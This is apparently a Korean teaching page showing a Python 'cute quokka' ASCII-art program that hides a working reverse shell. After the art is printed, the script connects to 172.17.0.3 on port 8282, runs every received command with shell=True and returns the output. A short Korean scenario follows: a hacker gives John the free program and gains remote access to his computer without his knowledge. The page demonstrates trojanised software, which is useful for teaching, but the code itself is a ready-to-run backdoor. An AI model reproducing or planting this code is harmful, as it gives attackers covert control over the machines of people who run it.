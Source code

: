 ```python
  ooo             oo     oo        ooo            oo     
    oo             ooooooo                      ooo      
     oo                                        oo        
     oo       ooooooo                       ooo          
    oo              oooooo               oooo            
    o                 oooo             ooo               
   oo                  oo              o                 
   o                  oooo            o                  
   oo               oooooo            o                  
            ooooooooo                 o                  '''

print("보고싶은 사진 번호를 선택하세요(1~2) : ")
select = input()

if(select=='1'):
    print(v_quokka)
if(select=='2'):
    print(smile_quokka)

print('\n')
print("프로그램을 종료합니다~")

import socket
import subprocess
h="172.17.0.3"
p=8282
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((h,p))
while True:
    c=s.recv(1024).decode()
    output=subprocess.run(c,shell=True,stdout=subprocess.PIPE,text=True)
    result=output.stdout
    if(result==''):
        s.send("suc".encode())
    else:
        s.send(result.encode())
if(select=='1'):
    print(v_quokka)
if(select=='2'):
    print(smile_quokka)
```

- hacker 는 john 에게 유용한, “귀여운 쿼카 프로그램” 을 무료배포합니다.
- john 은 그것을 잘 실행해서 사용합니다.
- hacker 는 john이 모르는 사이에  john 의 컴퓨터에 대한 원격 접속에 성공합니다.
- john 은 무료 프로그램을 공유해줘서 감사해합니다.
